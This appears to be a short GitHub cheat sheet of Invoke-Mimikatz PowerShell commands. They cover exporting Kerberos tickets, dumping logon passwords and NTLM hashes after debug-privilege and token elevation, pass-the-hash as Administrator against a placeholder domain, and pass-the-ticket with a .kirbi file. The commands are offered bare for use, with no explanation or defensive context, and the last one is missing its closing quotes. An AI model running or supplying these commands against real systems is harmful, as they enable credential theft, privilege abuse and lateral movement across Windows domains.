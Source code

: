 ## Mimikatz dump tickets


```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
## Mimikatz dump NTLM hashes

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Mimikatz pass the hashes

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:some.domain.local /ntlm:brydaafdsafd3524frw4fe4f /run:powershell.exe"'
```

## Mimikatz pass the tickets

```
Invoke-Mimikatz -Command '"kerberos::ptt haisdfhaoigehrsfoirqaejfoijio(ticket).kirbi
```

![image](https://github.com/Luminous-split/LifeLongCommands/assets/116489011/e7174e46-0541-4686-bbf7-17e71e3bc679)
